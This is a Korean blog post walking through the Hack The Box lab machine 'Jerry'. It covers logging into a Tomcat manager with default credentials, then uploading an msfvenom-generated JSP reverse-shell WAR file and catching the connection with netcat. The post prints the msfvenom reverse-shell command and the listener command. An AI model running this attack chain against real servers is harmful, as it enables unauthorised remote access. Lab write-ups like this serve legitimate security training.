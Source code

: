 ```yaml
---
date: '2023-03-20'
before : '2023-03-15'
after : '2023-03-20'
title: 'Hack The Box Machine : Jerry'
categories: ['C-SEC', 'KOR', 'webhack', 'HTB']
summary: 'HTB 2023 Machine 중 하나인 Jerry의 풀이'
thumbnail: '../contentImages/jerry/jerry.png'
---
```


<aside>
💡 노션으로 써본 첫 블로그 글!
</aside>

[1. 시작하기 전에](#1-시작하기-전에)
[2. Information Gathering](#2-information-gathering)
[3. User & Root Privilege](#3-user--root-privilege)
[4. 후기](#5-후기)

### 0. 시작하기 전에

![jerry.png](../contentImages/jerry/jerry.png)

오늘 풀어볼 문제는 HTB의 가장 기본적인 머신중 하나인 제리이다. 푸는데에는 30분이 채 안 걸렸지만, 엉뚱한곳에서 막혀서 살짝 헤메긴 했지만 별 문제없이 풀 수 있었다. 난이도는 아주 쉽다.

### 1. Information Gathering

![1.png](../contentImages/jerry/1.png)

딱 8080포트에 http proxy 하나 열려 있었다. 들어가보니 대충 이런 Tomcat 설명 페이지이다. 매니저 앱을 들어가려고 하니 로그인을 하라고 하고, 틀리니 에러 페이지가 떴다.

![4.png](../contentImages/jerry/4.png)

이 부분에서 한참 헤맸다… 분명 다시 로그인을 하라고 떠야하는데 안뜨길래 엥?? 뭐지? 로그인이 의미가 없는 부분인가? 다른곳에 뭐가 있나? 아닌것같은데..하고 생각하다가 아무리생각해도 이상해서 인터넷을 검색해보니 다른사람들은 잘만 여러번 로그인을 하고 있던 것이다. 당연하게도 아까 내가 로그인 데이터 저장을 누르는 바람에 쿠키에 남아있어서 그랬다. (…) 그래서 그냥 쿠키 지우고 여러가지 Tomcat 기본 크레덴셜로 로그인 시도를 하다보니 로그인이 됐다.

![3.png](../contentImages/jerry/3.png)

### 2. User & Root Privilege

이번 문제는 딱히 Privilege Escalation이 필요하지 않았다. Reverse Shell을 얻어보니 그냥 root였다.

![5.png](../contentImages/jerry/5.png)

앱을 탐색하니 저렇게 war 파일을 업로드 할 수 있는 function이 있다. 빠르게 msfvenom으로 reverse shell을 만들어서 업로드해보자.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.41 LPORT=8000 -f war -o revshell.war
=> 이 쉘을 웹 사이트에 업로드
nc -lvnp 8000 : listening server 시작
```

이렇게 업로드를 해주고 /shell.war을 방문하면 당연히 war 코드가 실행될 것이고, payload에 적은 대로 내 컴퓨터 8000번 포트에 shell이 연결된걸 확인할 수 있었다.

```bash
C:\ > whoami
Administarator\Service
```

확인해보니 이미 root 계정이 되어있다. 이곳저곳 탐색해보니 root.txt와 user.txt를 확인할 수 있었다.

### 3. 후기

솔직히 진짜 쉬운 문제고, 빨리 풀면 10분이면 풀 것 같은데, 쿠키를 안 지워서 더 걸렸다는게 자존심 상한다… 결국 다른 사람이랑 비교해보고 알아챈것도 너무너무 자존심 상한다… 그래도 실전에서 이런 실수 안하는게 어디야. 쉬운 문제지만 또 하나 배웠다.

## Source

- Hack The Box 2023
- Me!
